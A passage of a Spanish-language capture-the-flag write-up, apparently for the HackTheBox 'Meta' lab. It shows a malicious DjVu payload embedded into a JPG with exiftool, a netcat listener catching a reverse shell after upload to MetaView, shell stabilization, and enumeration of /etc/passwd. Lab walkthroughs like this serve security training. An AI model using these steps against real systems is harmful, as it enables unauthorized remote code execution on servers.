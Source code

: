 Por último, insertamos el archivo malicioso dentro de cualquier .jpg válido utilizando **`Exiftool`**

```console
p3ntest1ng:~$ exiftool -config configfile '-HasselbladExif<=exploit.djvu' rana.jpg
```

Ya sólo nos queda ponernos en escucha por el puerto **`9999`** (o el que tú quieras) y subir la imagen al **`MetaView`**

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.15.113] from (UNKNOWN) [10.10.11.140] 59310
bash: cannot set terminal process group (640): Inappropriate ioctl for device
bash: no job control in this shell
```

Hacemos tratamiento a la shell para que sea más o menos interactiva:

```console
bash-5.0$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
bash-5.0$ ^Z
zsh: suspended  nc -nlvp 9999
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 9999
                               reset xterm                      
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export SHELL=bash
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ stty rows 43 columns 189
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Tras analizar algunos directorios, vemos que efectivamente se estaba haciendo uso de **`ExifTool`**:

```console
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /lib/ExifToolWrapper.php
```

```php
<?php
    function exiftool_exec($newFilepath) {
        return shell_exec("exiftool " . escapeshellarg($newFilepath) . " --system:all --exiftool:all -e");
    }
?>
```

Listemos los usuarios que existen en el sistema:

```console
www-data@meta:/var/www$ grep -vE "nologin|false|sync|git" /etc/passwd | tr ":" " " | column -t
root    x  0     0      root       /root         /bin/bash
thomas  x  1000  1000   thomas,,,  /home/thomas  /bin/bash
```
